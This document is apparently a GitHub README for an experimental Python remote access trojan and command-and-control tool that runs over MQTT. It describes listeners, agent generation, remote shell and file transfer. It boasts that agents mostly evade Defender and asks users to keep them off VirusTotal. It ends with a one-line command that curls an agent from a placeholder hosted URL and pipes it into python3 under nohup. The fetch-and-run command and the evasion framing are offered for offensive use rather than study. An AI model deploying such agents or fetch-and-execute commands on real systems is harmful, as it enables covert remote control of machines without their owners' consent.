 # mqtaxi
### Experimental Python mqtt RAT/C2/Etc

This is a **toy** not meant for real Red Team engagements.  However I randomly make updates or add features to test the useability of mqtt as a transport mechanism for offensive use.  Collaboration on this project is welcome.

![Screenshot from 2022-11-21 12-45-32](https://user-images.githubusercontent.com/36344197/203133130-4aadeecc-7b3f-47c5-a5ea-8e8412f4de46.png)

The idea comes from using existing and trusted transport methods to achieve nefarious goals.  Mqtt's pub/sub type method of communication is perfectly situated for this and is common especially with iot type devices.  Mosquitto mqtt is easy to set up and also supports using forwarders.

---

**Current status:**

Mqtt connection is negotiated with paho.mqtt Python library

The client allows for typical creation of listeners, however the listener is actually a mqtt server that is either public or privately hosted using either tcp or websockets.  The mqtt server itself is just a standard Mosquitto mqtt server however I have included a default.conf and install script to get it running quickly.

![Screenshot from 2022-11-21 12-51-24](https://user-images.githubusercontent.com/36344197/203134494-9bb2e419-83e5-40fe-a514-4274c72dfb2e.png)

The client has the ability to connect to an agent to run pub/sub commands and see responses from terminal as well as Upload/Download functionality.  However as mentioned previously this is very much a work in progress.

![Screenshot from 2022-11-21 12-48-18](https://user-images.githubusercontent.com/36344197/203134445-663f5f10-3c89-4d56-9293-1ffed4da409d.png)

Python agents are generated using the 'generate' command within the config menu depending upon which listener you have activated using 'uselistener'.  I would like to add many more agents besides Python based.

![Screenshot from 2022-11-21 12-51-53](https://user-images.githubusercontent.com/36344197/203135028-4b2aba7e-2a57-4a93-9263-80442241d025.png)

---

**Some notes:**
- It is bloated and needs work
- It uses Python agents
- Doesn't follow standard accepted Python styles of coding, oops.
- It currently works, and isn't detected with Defender most of the time. (Please don't upload agents to virustotal)

**Listener Features:**
- Multi handler with Mosquitto mqtt pub/sub listener
- SSL TCP (mqtts://) or Websockets (wss://)
- Supports user/pass for authentication
- Supports ACL restrictions per topic

**Agent Features:**
- Remote shell (needs work or complete rewrite with pty or something similar, however currently works)
- Upload / Download
- Linux and Windows agents

**Client Features:**
- Add listeners (public or private)
- Generate agents per activated listener
- Session listing and connection
- Pub/Sub content is encrypted from MQTaxi to agent and visa versa, however, it is a python agent so...

**Work Needed:**
- Remove bloat
- Add jitter
- Add agents that use different languages besides Python
- Python agent pty.fork possibly
- Complete overhaul?  Who knows
- Include install script for mqtt forwarder
- Implement mqtt QoS and Last Will & Testament

**Execution of agent:**

The Python agent can be executed on a linux host with something like..

`yes|pip3 install paho.mqtt;nohup curl -s -X GET -H 'file:doit.py' https://my.hosted.something.com/3_tcp_lin.py|python3&exit`




	
